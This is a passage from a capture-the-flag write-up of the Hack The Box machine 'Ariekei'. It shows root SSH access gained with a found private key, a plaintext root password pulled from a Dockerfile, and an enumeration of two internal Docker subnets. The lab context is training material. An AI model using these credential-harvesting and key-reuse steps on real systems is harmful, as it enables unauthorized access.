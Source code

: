 # User Escalation to root on ezra
We could use the keys to `SSH` keys on the box.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # ssh -i bastion.pem root@10.10.10.65 -p 1022
Last login: Wed Jul 21 15:38:15 2021 from 10.10.14.23
root@ezra:~# whoami
root
root@ezra:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We check out the `/root/common/containers/waf-live` and `nginx.conf` which shows that we could only access the page when accessing from internal domain.
![[Pasted image 20210721235930.png]]

We also get some credentials on the Dockerfile
```python
root@ezra:/common/containers/blog-test# cat Dockerfile 
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update 
RUN apt-get install python -y
RUN mkdir /common
```
We also see that we have a two networks running
```
root@ezra:/common/network# ls
info.png  make_nets.sh
root@ezra:/common/network# cat make_nets.sh 
#!/bin/bash

# Create isolated network for building containers. No internet access
docker network create -d bridge --subnet=172.24.0.0/24 --gateway=172.24.0.1 --ip-range=172.24.0.0/24 \
 -o com.docker.network.bridge.enable_ip_masquerade=false \
  arieka-test-net

# Crate network for live containers. Internet access
docker network create -d bridge --subnet=172.23.0.0/24 --gateway=172.23.0.1 --ip-range=172.23.0.0/24 \
 arieka-live-net
```

Now, The fact is that we have the access of the two subnets on this box.

|Subnet|Network|
|--|--|
|172.23.0.0/24|arieka-live-net|
|172.24.0.0/24|arieka-test-net|
